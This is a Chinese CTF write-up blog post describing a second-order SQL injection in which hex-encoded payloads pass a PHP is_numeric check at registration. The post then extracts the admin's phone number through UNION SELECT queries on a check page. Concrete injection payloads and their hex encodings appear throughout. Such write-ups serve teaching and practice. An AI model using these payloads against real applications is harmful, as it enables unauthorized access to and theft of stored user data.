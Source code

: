 ```yaml
---
categories: web安全
date: "2017-11-14T00:00:00Z"
description: 本文介绍一个在CTF中遇到的经典二次注入
title: CTF - 美眉的手机号
url: /archivers/2017-11-14/1
---
```



## 0x00 前言

十一月十一号，在北科大参加了一场CTF，也是第一次投身真正的比赛

个人感觉，CTF并不是一种学习方式，但是绝对可以考验你的技术深度，这次去北京，确实感受到了那种极客精神，不管题目难或易，都有可圈可点之处，我将他们看作一道道关卡，将自己掌握的知识不断融合，去开辟新的思路，我很享受这个过程，其中，主要做了两道比较深刻的题目，在这里拿出来与大家分享，由于当时场地不允许连接外网，不能查阅资料，更获取不到服务器上的题目源代码，我只能回忆题目中的逻辑，通过PHP将它实现，略有改动。

我自己还原的源代码可以在这里看到：`https://github.com/Rvn0xsy/ctf_get_phone`


## 0x01 题目

大概意思是拿到管理员的手机号码，这个手机号码是flag。

> 你能获得女神的手机号吗？ 就在这里，存在一个高危漏洞，并且使用工具是无法达到目的的，追女神还是要用真心呀！！ 

![login.php](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2017-11-13/0x01.png)

## 0x02 细节分析

我首先使用自己手中的字典进行了一轮爆破，爆破的同时去注册了两个账号。

![register.php](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2017-11-13/0x03.png)

注册需要提供：

| username | password | phone |

这时，爆破未果，既然是一个高危漏洞，概率不会依附在“弱口令”上 （安慰一下自己）。

注册的两个账号，第一个是用于正常查看，第二个放入一些让SQL语句报错的关键字，例如：“ ' 、* 、) ”

但是第一个注册成功了，第二个提示phone必须是数字，这个提示信息是由客户端脚本提示的

于是我猜想会不会服务器端没有验证呢？

使用Burp提交后还是失败 :( 

先不管这个，第一步就要把所有的信息搜集完毕再说。

```javascript

$("#register").bind('click',function(){
        var usernameObj = $("#username");
        var passwordObj = $("#password");
        var phoneObj = $("#phone");
        var usernameVal = usernameObj.val();
        var passwordVal = passwordObj.val();
        var phoneVal = phoneObj.val();
        if(usernameVal == "" && usernameVal.length < 4){
            alert("Username is empty or short!");
            return false;
        }
        if(passwordVal == "" && passwordVal.length < 4){
            alert("Password is empty or short!");
            return false;
        }
        if(phoneVal == "" && phoneVal.length < 11){
            alert("Phone is empty or short!");
            return false;
        }
        $.post("/ctf/api.php?method=register",{
            "username":usernameVal,"password":passwordVal,"phone":phoneVal
        },function(data,status){
            var obj = jQuery.parseJSON(data);
            console.log(obj.status);
            if(obj.status){
                alert(obj.data);
                window.location.href='/ctf/index.php';
                return true;
            }else{
                alert("Error :" + obj.data);
                return false;
            }
        })
    });
```

上面是绑定的点击事件，提交到`/ctf/api.php?method=register`

登录页面也有类似的`AJAX`请求事件：

```javascript
<script>
    $("#login").bind('click',function(){
        var usernameObj = $("#username");
        var passwordObj = $("#password");
        var usernameVal = usernameObj.val();
        var passwordVal = passwordObj.val();
        if(usernameVal == "" && usernameVal.length < 4){
            alert("Username is empty or short!");
            return false;
        }
        if(passwordVal == "" && passwordVal.length < 4){
            alert("Password is empty or short!");
            return false;
        }
        $.post("/ctf/api.php?method=login",{
            "username":usernameVal,"password":passwordVal
        },function(data,status){
            var obj = jQuery.parseJSON(data);
            console.log(obj.status);
            if(obj.status){
                alert(obj.data);
                window.location.href='/ctf/index.php';
                return true;
            }else{
                alert("Error :" + obj.data);
                return false;
            }
        })
    });

```

登录后的主页：

![index.php](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2017-11-13/0x04.png)

然后我想到了越权，换个浏览器直接访问`index.php`，可还是跳转(服务端重定向)到`login.php`。

页面上有一个Check按钮，其点击后会跳转到`check.php`：

```javascript
    $("#logout").bind('click',function(){
        window.location.href="/ctf/logout.php";
    });
    $("#check").bind('click',function(){
        window.location.href="/ctf/check.php";
    });
```

访问`check.php`后：
![check.php](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2017-11-13/0x05.png)

这个页面的意思是统计数据库中有几个人和我使用的手机号是一样的。

根据场景还原一下SQL语句：`SELECT COUNT(*) FROM user WHERE phone = '123456'`

其他地方就再也没有翻到什么有价值的信息，获取不到`admin`用户的密码，当然也看不到`phone`

这时我只能思考这个`check.php`中，到底有什么漏洞，隐约感觉这里存在一个SQL注入，于是想办法验证，可是注册的时候后端完全判断了`phone`到底是不是数字。

忽然想起，它没有限制数字多长，大概40多位长都可以，那么存储`phone`这个字段的数据类型一定不是`int`或者`char`，而是`varchar`。

我尝试了十六进制提交，结果还真的可以注册，它肯定使用的是[is_numberic()](http://php.net/manual/zh/function.is-numeric.php)函数。

| username | test12345678 |
| password | test12345678 |
| phone | 0x3132333435362720616e64202773273d2773 |

`0x3132333435362720616e64202773273d2773` 对应 `123456' and 's'='s`

![check.php](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2017-11-13/0x06.png)

提交后，进入check页面:

![check.php](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2017-11-13/0x07.png)

返回 0 。

我们继续注册，使用一个报错`payload`，看页面是否支持报错注入：

`123456' " *SELECT-x` => `0x313233343536272022202a53454c4543542d78`


![check.php](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2017-11-13/0x08.png)

可以看到报错信息了，但是不是我们期望的mysql->error。

但是不要灰心，已经找到突破点了，通过十六进制转换，我们可以把`phone`带入SQL语句。

写一个`UNION`试试吧~ 

`123456' UNION SELECT version() FROM dual where 's'='s`  => `0x3132333435362720554e494f4e2053454c4543542076657273696f6e28292046524f4d206475616c207768657265202773273d2773`

![check.php](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2017-11-13/0x09.png)

OK，数据版本出来了，继续注入表以及数据库名。 但是当时我没有去选择这个办法，而是通过搜集的表单信息来当做字段名，这样节省时间，碰运气。

`123456' UNION SELECT phone FROM user where 'admin'='admin` => `0x3132333435362720554e494f4e2053454c4543542070686f6e652046524f4d2075736572207768657265202761646d696e273d2761646d696e`

![check.php](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2017-11-13/0x10.png)

## 0x03 过程分析

这种逻辑型的二次SQL注入，的确是扫描器、工具难以发现，如果再加个验证码，难度会更高一些。

寻找突破点还是要积累更多的经验

## 0x04 过程演示

<p>
<video src="https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2017-11-13/CTF.mp4" controls="controls" width="500px">
哎呀~ 换个浏览器试试吧！
</video>
</p>





